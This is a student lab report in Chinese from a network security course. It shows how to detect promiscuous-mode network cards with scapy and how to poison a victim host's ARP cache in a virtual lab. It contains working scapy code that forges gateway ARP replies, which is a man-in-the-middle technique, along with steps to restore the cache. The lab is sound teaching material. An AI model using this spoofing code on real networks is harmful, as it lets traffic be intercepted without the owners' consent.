

# 第四章实验

## 实验网络拓扑


如图所示网络中的节点基本信息如下：

- 攻击者主机
  - `08:00:27:4f:06:0b` / `eth0`
  - `172.16.111.103`

- 受害者主机
  - `08:00:27:25:d4:c3` / `eth0`
  - `172.16.111.142`

- 网关
  - `08:00:27:e5:9b:4b` / `enp0s9`
  - `172.16.111.1`

## 实验准备

### 安装scapy

在攻击者主机上提前装好scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

### 实验一：检测局域网中的异常终端

1. 在受害者主机上检查网卡的`混杂模式`是否启用

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```



2. 在攻击者主机上开启scapy


3. 在`scapy`的交互式终端输入以下代码回车执行

```
pkt = promiscping("172.16.111.142")
```


4. 回到受害者主机上开启网卡混杂模式

```
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果多出来了PROMISC
ip link show eth0
```


5. 回到攻击者主机上的scapy交互式终端继续执行命令，比较差异

```
pkt = promiscping("172.16.111.142")
```


6. 在受害者主机上手动关闭该网卡的`混杂模式`

```
sudo ip link set eth0 promisc off
```

#### 实验思考

- 混杂模式：接收所有经过网卡的数据包，不是发给本机的包也会接收，即不验证MAC地址
- 普通模式：网卡只接收发给本机的包
- 由此得出结论：只有在混杂模式下，受害者主机才能接收到这个数据包

### 实验二：手工单步“毒化”目标主机的ARP缓存

1. 获取当前局域网的网关MAC地址

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:4f:06:0b
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:4f:06:0b
#      psrc= 172.16.111.103
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```


2. 伪造网关的ARP响应包发送给受害者主机

```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.142", hwdst="08:00:27:4f:06:0b")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


1. 在受害者主机上查看ARP缓存

```
ip neigh
```


4. 恢复受害者主机的ARP缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e5:9b:4b", pdst="172.16.111.142", hwdst="08:00:27:25:d4:c3")

sendp(restorepkt1, count=100, inter=0.2)
```


5. 在受害者主机上“刷新”网关ARP记录

```
# 在受害者主机上ping网关
ping 172.16.111.1 
# 再次查看ARP缓存，已恢复正常的网关ARP记录
ip neigh
```


## 实验中遇到的问题及解决方法

- 攻击者主机发送伪造`ARP`响应时，在受害者主机查看`ARP`缓存时没有更新

**错误原因：**伪造的包可能没有发送成功到受害者主机上

**解决方法：**在构造的`ARP`包前增加`Ether()`

```
# 在构造的ARP包前增加Ether()
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.142", hwdst="08:00:27:4f:06:0b")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

## 参考

- [网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)
- [2020-ns-public-AlinaZxy](https://github.com/CUCCS/2020-ns-public-AlinaZxy/blob/chap04/chap04/chap04.md)

